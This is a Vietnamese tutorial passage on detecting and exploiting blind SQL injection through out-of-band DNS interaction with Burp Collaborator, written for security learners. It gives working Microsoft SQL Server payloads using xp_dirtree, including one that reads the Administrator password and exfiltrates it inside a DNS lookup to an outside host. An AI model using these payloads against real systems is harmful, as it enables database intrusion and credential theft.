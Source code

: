 Nhiều giao thức mạng có thể dùng cho mục đích này, nhưng **thường hiệu quả nhất là DNS (Domain Name Service)**. Lý do: phần lớn các mạng trong môi trường production cho phép DNS truy vấn ra ngoài (free egress) vì đây là thành phần thiết yếu cho hoạt động bình thường của hệ thống.

**Công cụ đơn giản và đáng tin cậy nhất để sử dụng kỹ thuật out-of-band** là **Burp Collaborator**. Đây là một máy chủ cung cấp các triển khai tùy chỉnh của nhiều dịch vụ mạng khác nhau, bao gồm cả **DNS**.

Burp Collaborator cho phép bạn phát hiện khi có **tương tác mạng** xảy ra do gửi các payload riêng lẻ tới ứng dụng có lỗ hổng. **Burp Suite Professional** tích hợp sẵn một client được cấu hình để làm việc với Burp Collaborator **ngay khi cài đặt**.

Các kỹ thuật để kích hoạt một truy vấn DNS phụ thuộc vào **loại cơ sở dữ liệu** đang dùng.

Ví dụ, trên **Microsoft SQL Server**, bạn có thể dùng payload sau để tạo một truy vấn DNS đến tên miền chỉ định:

```sql
'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--
```

Lệnh trên khiến cơ sở dữ liệu thực hiện truy vấn DNS tới tên miền:

```
0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net
```

Bạn có thể sử dụng Burp Collaborator để **tạo ra một subdomain duy nhất**, sau đó **poll** (truy vấn) máy chủ Collaborator để xác nhận thời điểm có bất kỳ truy vấn DNS nào xảy ra.

Sau khi đã xác nhận được cách kích hoạt **tương tác out-of-band**, bạn có thể sử dụng kênh out-of-band để **exfiltrate dữ liệu** từ ứng dụng có lỗ hổng. Ví dụ:

```sql
'; declare @p varchar(1024);
set @p=(SELECT password FROM users WHERE username='Administrator');
exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

Payload này sẽ:

1. Đọc mật khẩu của user **Administrator** từ bảng `users`.
2. Nối giá trị mật khẩu đó với một subdomain duy nhất của **Burp Collaborator**.
3. Kích hoạt một truy vấn DNS tới tên miền đó.

Ví dụ, nếu truy vấn DNS được ghi nhận là:

```
S3cure.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.ne
```

→ Lúc này bạn có thể thấy mật khẩu (`S3cure`) trực tiếp trong subdomain được gửi đi.

Kỹ thuật **out-of-band (OAST)** là một phương pháp mạnh mẽ để phát hiện và khai thác blind SQL injection, vì:

- Xác suất thành công cao.
- Có khả năng exfiltrate dữ liệu trực tiếp qua kênh out-of-band.

Vì lý do này, OAST thường **được ưu tiên** ngay cả khi các kỹ thuật blind SQL injection khác vẫn hoạt động.
